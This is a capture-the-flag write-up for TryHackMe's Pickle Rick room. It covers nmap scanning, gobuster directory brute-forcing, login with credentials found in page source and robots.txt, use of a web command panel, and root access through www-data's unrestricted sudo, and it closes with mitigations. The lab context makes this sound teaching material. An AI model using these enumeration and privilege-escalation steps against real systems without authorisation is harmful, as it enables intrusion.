

# TryHackMe - Pickle Rick (CTF Write-up)

> Author: Adam Pawelczyk
> 
> Date: 2025-07-04
> 
> Category: Web
> 
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/picklerick)

---

## Challenge Description

> This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
>
> Deploy the virtual machine on this task and explore the web application: `10.10.77.26`

This challenge involves exploiting a web server and identifying three key ingredients necessary for Rick to create his potion and revert from being a pickle back to human. The task requires deploying the provided virtual machine and investigating the hosted web application to uncover these ingredients.

## Goal

Locate all three hidden ingredients across the system to help Rick craft his potion.

## TL;DR

- The given IP address was scanned using `nmap`, revealing open ports 80 and 22.
- Hardcoded credentials were discovered in the HTML and `robots.txt`.
- Access was gained to a web command execution panel.
- Two ingredients were retrieved from accessible directories.
- The third ingredient was found in `root` directory by exploiting full `sudo` privileges for the `www-data`user.

## Reconnaissance

### Port Scan

A full port scan was performed using `nmap` to identify exposed services:

```bash
sudo nmap 10.10.77.26 -sV -p-
```

Results:

  ```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

The results show two open ports:

- Port 22: SSH
- Port 80: Apache web server

### Web Exploration

Visiting the IP in a browser shows a Rick and Morty themed homepage.



Viewing the HTML source reveals a hardcoded username:


### Directory and File Brute-Force

`gobuster` was used to discover hidden files and directories:

```bash
gobuster dir -u 10.10.77.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,js,md,php
```

Notable findings include:

- `/login.php`: Login page (needs password)


- `/robots.txt`: Contains a potential password
- `/clue.txt`: Contains: `Look around the file system for the other ingredient.`

## Initial Access

Authentication was achieved at `/login.php` using credentials found in the page source and `robots.txt`.


## Post-Login Exploration

After logging in, the "Command Panel" interface is displayed, providing command execution functionality. Accessing other tabs results in a redirect to `/denied.php`


An attempt was made to list the files in the current directory:

 ```bash
 ls -la
```

Result:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The first ingredient is located in the `Sup3rS3cretPickl3Ingred.txt` file, but its contents cannot be viewed using `cat` or `vim` as these commands are disabled.


The `strings` command, which extracts human-readable strings from files, can be used to obtain the first ingredient:

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

### Deeper Enumeration

Following the clue form `clue.txt`, the file system was explored, revealing that Rick's home directory is accessible:

```bash
ls -la /home/rick
```

And it contains:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The second ingredient can also be obtained using the `strings` command:

```bash
strings /home/rick/second\ ingredients
```

## Privilege Escalation

While exploring the file system, a `/root` directory was found. Attempting to access this directory resulted in **Permission Denied**, as the current user does not have the required access. Since the final ingredient might be located there, privilege escalation was attempted to gain access.

### Checking Sudo Permissions

It can be checked whether the current user has any `sudo` rights by running:

```bash
sudo -l
```

The result:

```bash
Matching Defaults entries for www-data on ip-10-10-77-26:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-77-26:
    (ALL) NOPASSWD: ALL
```

This output shows that `www-data` can run **any** command as `any` user without providing a password - this means **full root access** via `sudo`

### Getting Root Access

The contents of the `/root` directory can be listed with root privileges:

```bash
sudo ls -la /root
```

Result:

```bash
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Jul  4 12:32 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
```

The `3rd.txt` file was found. Its contents can be read to obtain the third and final ingredient:

```bash
sudo strings /root/3rd.txt
```

## Conclusion

The objective was to find three hidden ingredients by exploiting a vulnerable web server. During the process, open ports were scanned, and tools like `gobuster` were used to enumerate hidden files and directories. Hardcoded credentials were discovered and used to log in via the web form. After gaining access, a built-in command execution feature helped locate two ingredients, while the third was found in the protected `/root` directory. Privilege escalation was achieved by exploiting the `www-data` user's unrestricted `sudo` access.

## Skills Practiced

- Web application analysis.
- Web enumeration and directory/file brute-forcing using tools like `gobuster`.
- Linux filesystem navigation and basic commands.
- Privilege escalation via misconfigured `sudo` permissions.

## Mitigations:

- Never hardcode credentials in we pages.
- Avoid giving unrestricted `sudo` access to web-facing users like `www-data`.
- Validate and sanitize user input in web interfaces to avoid abuse of command execution.

## Final Thoughts

This challenge was a great introduction to web-based CTFs and demonstrated how exposed credentials, command execution features, and misconfigured `sudo` rights can lead to full server compromise.

**Note:** Passwords and flag values have been redacted in accordance with TryHackMe's write-up policy.